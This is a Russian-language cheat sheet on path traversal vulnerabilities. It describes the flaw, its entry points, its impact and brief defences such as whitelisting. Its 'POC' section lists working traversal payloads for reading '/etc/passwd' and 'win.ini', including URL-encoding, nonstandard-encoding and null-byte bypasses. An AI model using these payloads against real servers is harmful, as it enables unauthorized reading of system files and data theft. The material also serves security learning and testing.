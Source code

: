 ### **PATH TRAVERSAL**
* **Описание**
*	Обход пути также известен как обход каталога. Эти уязвимости позволяют злоумышленнику читать произвольные файлы на сервере, на котором запущено приложение.Уязвимости Directory Traversal появляются из-за отсутствия валидации входных данных пользователя, а также из-за отсутствия разграничения доступа приложения или функции на возможность обращаться к файловым ресурсам всего сервера.

* **Виды**

* **Точки входа**
*	<img src="/loadImage?filename=218.png">
*	https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

* **POC**
....//
....\/
* кодирование URL-адреса или двойное кодирование URL-адреса:
	%252e%252e%252f
* нестандартные кодировки:
	..%c0%af или ..%ef%bc%8f
* начиналось с ожидаемой базовой папки:
	имя_файла=/var/www/images/../../../etc/passwd
* заканчивалось ожидаемым расширением файла:
	имя_файла=../../../etc/passwd%00.png

# LFI + RCE
* **Профит**
* Чтение файлов системы
* Утечка данных
* Репутационные потери

* **Защита**
* Самый эффективный способ предотвратить уязвимости обхода пути — вообще избегать передачи вводимых пользователем данных в API файловой системы. Многие функции приложения, которые делают это, можно переписать, чтобы обеспечить то же поведение более безопасным способом.
* Белый список
* Только буквы и символы
